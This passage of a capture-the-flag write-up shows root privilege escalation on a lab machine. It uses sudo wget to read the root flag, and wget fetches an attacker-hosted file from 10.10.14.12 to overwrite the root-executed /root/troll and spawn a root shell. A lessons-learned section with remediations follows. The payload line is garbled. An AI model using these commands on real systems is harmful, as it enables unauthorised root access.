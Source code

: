 We can run wget with root privileges! If you’re familiar with the “-i” flag in wget, you’ll know that we can use it to output the content of files. Therefore, we can run the following command to get the root flag.

```text
sudo wget -i /root/root.txt
```

However, in this scenario we’re simply reading the content of the flag and not really escalating privileges. To get a root shell we need to chain the following two vulnerabilities:

1. The user Sunny can execute the /root/troll file with root privileges, and
2. The user Sammy can overwrite any root owned file using the wget command.

Therefore, we’ll use Sammy’s sudo privileges to overwrite the /root/troll file and include a shell in it. Then we’ll use Sunny’s sudo privileges to run the /root/troll file and convert our shell to a root shell.

Alright, let’s do this! In the attack machine, create a file called “troll” and add the following code to it.

```text
#!/usr/bin/bashbash
```

Then start up a simple Python server in the directory the file is in.

```text
python -m SimpleHTTPServer 5555
```

Go back the target machine running with the Sammy user privileges, and run the wget command to overwrite the /root/troll file.

```text
sudo wget -O /root/troll http://10.10.14.12:5555/troll
```

In another SSH session running with the Sunny user privileges, execute the troll file.

```text
sudo /root/troll
```

Since we added a bash shell in the troll file and the troll file is being executed with root privilege, we get a root shell!

![](https://miro.medium.com/max/708/1*uwgWwKXkC3A9TvuG3_UMiw.png)

**Note:** Something on the server seems to be resetting the /root/troll file every couple of seconds, therefore you only have small window of time between overwriting the troll file as Sammy and executing the troll file as Sunny.

## Lessons Learned <a id="838c"></a>

To gain an initial foothold on the box we exploited two vulnerabilities.

1. Username enumeration of the finger service. The finger protocol is used to get information about users on a remote system. In our case, we used it to enumerate usernames that we later used to SSH into the server. The remediation for this vulnerability would be to disable this service.
2. Weak authentication credentials. After getting a username from the finger service, we ran a brute force attack on SSH to obtain a user’s credentials. The user should have used a sufficiently long password that is not easily crackable.
